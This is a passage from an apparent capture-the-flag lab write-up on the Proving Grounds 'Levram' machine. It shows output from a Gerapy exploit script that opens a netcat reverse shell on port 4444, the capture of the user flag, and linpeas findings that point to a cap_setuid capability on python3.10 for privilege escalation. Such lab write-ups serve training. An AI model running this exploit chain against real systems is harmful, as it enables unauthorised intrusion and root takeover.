 now that i can run it:
```
*] Getting the project list
Traceback (most recent call last):
  File "/home/wizardwalter/proving_grounds/levram/exploit.py", line 130, in <module>
    exp.exploitation()
    ~~~~~~~~~~~~~~~~^^
  File "/home/wizardwalter/proving_grounds/levram/exploit.py", line 76, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range
```

after reading the code it looks like we need to make sure there is a project present in Gerapy
ill create one called test and run it again..
```
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
```

shell caught!
```
whoami
app
```

```
cat local.txt
101b24717cbe8************
```

USER PWNED!

---

### Priv Esc

i uploaded linpeas and found few things:
```
Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  3 root root 4096 Jun 12  2023 .
drwxr-xr-x 19 root root 4096 Jun 15  2022 ..
drwx--x--x  4 root root 4096 Jun 12  2023 containerd
...

sh files in path
/usr/bin/gettext.sh
/usr/bin/rescan-scsi-bus.sh
...
/usr/bin/python3.10 cap_setuid=ep **yellow highlighting** which mean 95% chance PE
```
